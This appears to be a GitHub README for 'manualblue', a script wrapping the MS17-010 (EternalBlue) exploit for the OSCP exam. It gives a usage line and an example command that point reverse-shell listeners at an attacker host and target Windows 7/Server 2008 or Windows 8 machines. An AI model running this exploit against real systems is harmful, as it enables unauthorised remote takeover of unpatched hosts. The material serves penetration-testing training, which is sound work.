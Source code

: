 # manualblue
## A variant of [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) by [3ndG4me](https://github.com/3ndG4me/), modified even further for OSCP compliance.

### Version: 0.6:
- This version is not working consistently, use at your own risk.
    - Pull requests welcome
    - Must have Terminator installed

## Usage:
`./manualblue.sh LHOST 64_LPORT 86_LPORT TARGETIP TARGET_TYPE`

- TARGET_TYPE:
    - [0] - Windows 7/Server 2008
    - [1] - Windows 8
### Example:
`./manualblue.sh 10.10.10.10 4446 4443 10.10.10.11 0`